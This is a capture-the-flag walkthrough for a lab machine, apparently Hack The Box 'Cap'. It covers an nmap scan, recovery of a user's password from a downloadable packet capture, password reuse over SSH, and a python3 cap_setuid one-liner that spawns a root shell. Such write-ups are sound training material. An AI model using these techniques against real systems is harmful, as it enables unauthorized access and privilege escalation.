

# nmap

First, we'll scan the open ports of the IP:

```zsh
┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# http

On the site, we notice we're logged in by default as the user "Nathan".
We then find that the site allows downloading network captures:
http://10.10.10.245/data/0

We download pcap number 0 and analyze it with Wireshark:


We then find Nathan's password (used for FTP).

# ssh

Nathan's FTP password is the same as his SSH password:

```zsh
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```

We then retrieve the user flag:

```zsh
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd67..bc21c
```

# privesc

We check for vulnerabilities related to capabilities:

```zsh
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We can immediately see here that python3.8 is likely vulnerable to a setuid-type exploit.
You can find capability exploits on [gfobins](https://gtfobins.github.io/gtfobins/python/#capabilities):

```zsh
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

We are indeed root!
All that remains is to retrieve the final flag:

```zsh
# cat /root/root.txt
0987..b266c
```
